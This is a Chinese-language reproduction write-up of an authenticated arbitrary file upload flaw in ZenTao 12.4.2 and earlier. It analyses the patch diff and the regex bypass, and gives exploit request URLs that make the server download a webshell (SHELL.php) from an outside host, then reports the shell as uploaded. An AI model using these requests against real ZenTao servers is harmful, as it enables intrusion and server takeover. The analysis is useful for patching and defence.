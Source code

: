 # 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 影响版本

<a-checkbox checked>禅道 <= 12.4.2版本</a-checkbox></br>

## 环境搭建

![img](../../../.vuepress/public/img/zentao-1-20220313232509623.png)



调用接口查询版本信息



```plain
  http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```



![img](../../../.vuepress/public/img/zentao-14.png)



## 漏洞复现

- ✅漏洞触发需要后台权限



根据漏洞描述查看修改后的代码片段



![img](../../../.vuepress/public/img/zentao-2.png)



**修改前**



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```



**修改后**



```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```



这里传入的参数为版本和link地址，然后base64解码，正则判断是否为**http**或**https**协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件



![img](../../../.vuepress/public/img/zentao-4.png)



可以大写**http**或请求**FTP**来绕过正则



![img](../../../.vuepress/public/img/zentao-6.png)



![img](../../../.vuepress/public/img/zentao-5.png)



跟进一下**parent::downloadZipPackage**这个方法，跟着来到**zentao\module\client\model.php**文件中



![img](../../../.vuepress/public/img/zentao-3.png)



```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```



可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中



查看一下有没有调用这个方法的地方



![img](../../../.vuepress/public/img/zentao-7.png)



找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法



```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```



首先先上传一个恶意文件，可以是FTP也可以是HTTP



例如我上传的文件URL为[**http://peiqi.tech/SHELL.php**](http://peiqi.tech/SHELL.php)



```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



请求地址则为



```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```



![img](../../../.vuepress/public/img/zentao-8.png)



下载的目录地址为**zentaopms\www\data\client\1**


 

目录为version名称



![img](../../../.vuepress/public/img/zentao-9.png)



成功上传webshell



![img](../../../.vuepress/public/img/zentao-10.png)



## 